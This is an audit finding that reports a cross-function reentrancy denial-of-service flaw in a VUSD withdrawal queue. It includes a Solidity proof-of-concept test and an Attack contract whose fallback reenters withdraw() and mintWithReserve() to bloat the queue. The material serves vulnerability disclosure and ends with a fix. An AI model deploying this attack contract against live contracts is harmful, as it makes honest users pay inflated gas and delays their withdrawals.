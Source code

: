 0x3e84fa45

high

# Denial of Service through cross-function reentrancy

## Summary
By cross-function reentering during the ```processWithdrawal()``` execution and performing multiple ```withdraw()``` calls, a malicious actor can bloat the withdrawal queue with more reentrant withdrawal transactions.
The bloating of the withdrawal queue makes ```processWithdrawal()``` expensive to call, and for users to process their withdrawal they would have to execute it several times, which would create even more bloat at the expense of the caller, while the malicious actor doesn't have to pay anything to maintain the bloat.
## Vulnerability Detail
Users are expected to call ```withdraw()```, which will burn their VUSD and push a Withdrawal object into the withdrawals array containing the amount burned.
On each iteration of the while loop ```withdrawals.length``` is read and a low-level call is performed to send the withdrawal amount to the user.

Since there is no reentrancy lock in the ```withdraw()``` and ```mintWithReserve()``` functions an attacking contract can cross-function reenter the ```withdraw()``` function during ```processWithdrawals()``` execution and post several withdrawal transactions with the minimum ```5 USDC``` mint requirement, which will modify the ```withdrawals.length``` **during** ```processWithdrawals()``` execution. This means that on the same ```processWithdrawals()``` call the reentered withdrawal transactions will also be executed, reentering again and creating even more withdrawals until `maxWithdrawalProcesses` is reached.

The attack contract can also reenter the ```mintWithReserve()``` function to redirect the USDC it is being sent per withdrawal into VUSD, which consequently be used to post more reentered withdrawals, creating an endless bloating loop at the expense of the ```processWithdrawals()``` caller.

This loop has no real cost for the attacker, the funds are just being exchanged from USDC to VUSD, to be held in the Withdrawal queue, to be received back in USDC, all this at the expense of the ```processWithdrawals()``` caller. The more USDC the malicious actor provides to the attack contract, the more 5 USDC withdrawal transactions bloating there will be, and therefore the more expensive calling ```processWithdrawals()``` will get.

```Solidity
    function processWithdrawals() external override whenNotPaused nonReentrant {
        uint reserve = address(this).balance;
        require(
            reserve >= withdrawals[start].amount,
            "Cannot process withdrawals at this time: Not enough balance"
        );
        uint i = start;
        while (i < withdrawals.length && (i - start) < maxWithdrawalProcesses) {
            Withdrawal memory withdrawal = withdrawals[i];
            if (reserve < withdrawal.amount) {
                break;
            }

            (bool success, bytes memory data) = withdrawal.usr.call{
                value: withdrawal.amount
            }("");
            if (success) {
                reserve -= withdrawal.amount;
            } else {
                emit WithdrawalFailed(withdrawal.usr, withdrawal.amount, data);
            }
            i += 1;
        }
        // re-entracy not possible, hence can update `start` at the end
        start = i;
    }
```

PoC:

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;
import "./Utils.sol";

contract VUSDCrossFunctionReentrancy is Utils {
    Attack public attackContract;

    function setUp() public {
        setupContracts();
        attackContract = new Attack(address(husd));
    }

    function testCrossFunctionReentrancy() public {
        //All users, including the attackContract own 10.000 VUSD
        uint amount = 10_000 * 1e6;
        uint minimalWithdrawalAmount = 5 * 1e6;

        mintVusd(bob, amount);
        mintVusd(alice, amount);
        mintVusd(address(attackContract), amount);

        //User Alice pushes a withdrawal to the queue
        vm.prank(alice);
        husd.withdraw(minimalWithdrawalAmount);

        //Push attackContract withdrawal to the queue
        vm.prank(address(attackContract));
        husd.withdraw(minimalWithdrawalAmount);

        //User Bob pushes a withdrawal
        vm.prank(bob);
        husd.withdraw(minimalWithdrawalAmount);

        //QUEUE: [aliceWithdrawal, attackContractWithdrawal, bobWithdrawal]

        assertEq(husd.withdrawalQLength(), 3);
        assertEq(husd.start(), 0);

        husd.processWithdrawals();

        //After finishing process withdrawals queue is 395 withdrawals long, and the new start position is 100
        //The next user that pushes a withdrawal, is going to have to processWithdrawals 3 times to reach to his withdrawal
        assertGt(husd.withdrawalQLength(), 200);
        assertEq(husd.start(), 100);

        //Bob pushes another withdrawal
        vm.prank(bob);
        husd.withdraw(minimalWithdrawalAmount);
        //He processes the withdrawals until his is processed in position 396
        husd.processWithdrawals();
        husd.processWithdrawals();
        husd.processWithdrawals();
        //Start is now at 400, meaning his withdrawal has gone through
        assertEq(husd.start(), 400);
        //After that there would be over 1500 pending withdrawals bloating the queue
        assertGt(husd.withdrawalQLength(), 1500);
    }
}

contract Attack {
    VUSD public target;

    constructor(address _target) {
        target = VUSD(_target);
    }

    function simpleWithdraw() external {
        target.withdraw(5 * 1e6);
    }

    fallback() external payable {
        if (msg.sender == address(target)) {
            if (address(this).balance > 100 * 1e18) {
                target.mintWithReserve{value: 80 * 1e18}(
                    address(this),
                    80 * 1e6
                );
            }
            if (target.balanceOf(address(this)) > 30 * 1e6) {
                target.withdraw(5 * 1e6);
                target.withdraw(5 * 1e6);
                target.withdraw(5 * 1e6);
                target.withdraw(5 * 1e6);
            }
        }
    }
}

```
## Impact
The fact that ```withdrawal.length``` updates paired with the lack of reentrancyGuard in ```withdraw()``` and ```mintWithReserve()``` creates the possibility of bloating the queue at the ```processWithdrawals()``` caller's expense. Any ```withdraw()``` called by a user would push their withdrawal transaction in the queue several hundreds or even thousands of positions from where the execution is, depending on how many times the ```processWithdrawal()``` has been called, and how much capital the attacker has deployed to bloat the queue.

Bloating the network doesn't directly censor a single user's withdrawal, but they would have to execute a costly ```processWithdrawals()``` multiple times to reach their transaction, creating even more bloat in the process for other users.
We believe that the cross-function reentering attack is a different attack vector regarding an out-of-gas DoS attack consuming 63/64 execution gas in a fallback, and leaving 1/64th of the gas not being enough to complete execution. The cross-function reentrancy attack would still be possible even if fixes for the "out of gas" attack like setting a reasonable ```maxWithdrawalProcesses``` value and a proportional gas limit in the low-level calls so that the full ```processWithdrawals()``` execution could never get close to block gas limit.
## Code Snippet
https://github.com/hubble-exchange/hubble-protocol/blob/d89714101dd3494b132a3e3f9fed9aca4e19aef6/contracts/VUSD.sol#L65C5-L86C1
## Tool used

Manual Review

## Recommendation

Cache the `withdrawals.length` in a local variable to prevent loops and set `nonReentrant` on the other key functions in the contract. 
